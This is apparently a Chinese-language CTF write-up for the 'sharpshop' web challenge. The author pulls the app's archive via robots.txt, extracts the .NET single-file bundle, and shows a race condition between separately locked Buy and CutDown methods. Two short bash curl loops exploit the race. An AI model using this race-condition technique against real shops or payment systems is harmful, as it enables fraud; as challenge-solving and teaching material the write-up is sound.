 #Web #csharp #dotnet #reverse #竞态条件

记忆源点是封面欺诈，这题和Acreae真的没有关系（（（

```
/
```

![](<./img/Pasted image 20230514190039.png>)

砍价是减去`(FlagPrice - Wallet) / 2`，砍不完的（pdd：？）

通过Web上帝冥冥之中的指引，我们访问了奇怪的东西

```
/robots.txt
```

> User-agent: *
> Disallow: /sharpshop.tar

！是大自然的馈赠~

```
/sharpshop.tar
```

```shell
$ file app
app: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib/ld-musl-x86_64.so.1, BuildID[sha1]=151285fb3b9f0e8bc28b37aa06d105dfbb530c2d, stripped
```

都2302年了怎么还有人web服务藏着掖着的啊（恼

由标题"sharpshop"应该能推测出是C#写的，通常dotnet平台的程序编译成MSIL，由CLR实时翻译成native code执行，但这里给的是一个单文件，链接到musl libc

于是推测是发布时开启了PublishSingleFile和SelfContained开关，把IL和CLR暴力打包到一个可执行文件里，运行时解压到临时目录执行

~~可以使用[`sfextract`](https://github.com/Droppers/SingleFileExtractor)提取这些内容。~~听说新版本`ILSpy`也可以直接查看了qwq

```shell
$ sfextract app -o app.ex
Bundle version: 6.0
Extracted 171 files to "app.ex"
```

来看下购买部分的核心逻辑

```csharp
// Shopping
using System.Runtime.CompilerServices;
using System.Threading;

internal class Shopping
{
	private long _FlagPrice;

	private long _Wallet;

	private int _IsCutting;

	private int _IsBuying;

	public long FlagPrice => _FlagPrice;

	public long Wallet => _Wallet;

	public bool HasFlag { get; private set; }

	public void CutDown()
	{
		while (Interlocked.Exchange(ref _IsCutting, 1) != 0)
		{
		}
		_FlagPrice -= (_FlagPrice - _Wallet) / 2;
		Interlocked.Exchange(ref _IsCutting, 0);
	}

	public bool Buy(out string message)
	{
		while (Interlocked.Exchange(ref _IsBuying, 1) != 0)
		{
		}
		long flagPrice = _FlagPrice;
		_Wallet -= flagPrice;
		DefaultInterpolatedStringHandler defaultInterpolatedStringHandler = new DefaultInterpolatedStringHandler(6, 1);
		defaultInterpolatedStringHandler.AppendLiteral("购买后余额：");
		defaultInterpolatedStringHandler.AppendFormatted(_Wallet);
		message = defaultInterpolatedStringHandler.ToStringAndClear();
		bool result;
		if (_Wallet < 0)
		{
			_Wallet += flagPrice;
			message += "，余额不足～";
			result = false;
		}
		else
		{
			message += "，购买成功～";
			HasFlag = true;
			result = true;
		}
		Interlocked.Exchange(ref _IsBuying, 0);
		return result;
	}

	public Shopping()
	{
		_IsCutting = 0;
		_IsBuying = 0;
		_Wallet = 100L;
		_FlagPrice = long.MaxValue;
		HasFlag = false;
	}
}
```

初学多线程的CrackTC用了两个互斥锁 ***分别*** 锁住了`Buy`和`CutDown`的执行流，并这样说道

> 在我看来，这个程序是牢不可破的~~，所以我压根没有准备记忆源点啊哈哈哈哈哈~~

但是由于`Buy`和`CutDown`没有做到互斥，且都访问了`_FlagPrice`和`_Wallet`，竞态条件的可能性依然存在

假设某个时刻`_FlagPrice`为101，`_Wallet`为100，下面的路径将导致`_FlagPrice`变成50，`_Wallet`还是100，于是就买得起啦～

```
+---------------------------------------+-------------------+----------------------------------------+
|                                       |                   |                                        |
|                                       |                   |   _Flag -= (_FlagPrice - _Wallet) / 2  |
|                                       |                   |                                        |
+---------------------------------------+-------------------+----------------------------------------+
|                                       |                   |                                        |
|                                       |                   |                                        |
|                                       |         *         |                   *                    |
|                                       |         |         |                                        |
+---------------------------------------+---------+---------+----------------------------------------+
|                                       |         |         |                                        |
|                                       |         v         |                                        |
|     long flagPrice = _FlagPrice       |         *         |                   *                    |
|                                       |         |         |                                        |
+---------------------------------------+---------+---------+----------------------------------------+
|                                       |         v         |                                        |
|     _Wallet -= _FlagPrice             |         *---------+------------------>*                    |
|                                       |                   |                   |                    |
+---------------------------------------+-------------------+-------------------+--------------------+
|                                       |                   |                   v                    |
| if (_Wallet < 0) _Wallet += flagPrice |         *         |                   *                    |
|                                       |                   |                                        |
+---------------------------------------+-------------------+----------------------------------------+
```

所以写俩脚本分别发送两种请求就行了

```shell
#!/bin/bash

url=$1
cookie=$2
while true
do
    curl -b $cookie "$url/?action=buy"
done
```

```shell
#!/bin/bash

url=$1
cookie=$2
while true
do
    curl -b $cookie "$url/?action=cutDown"
done
```
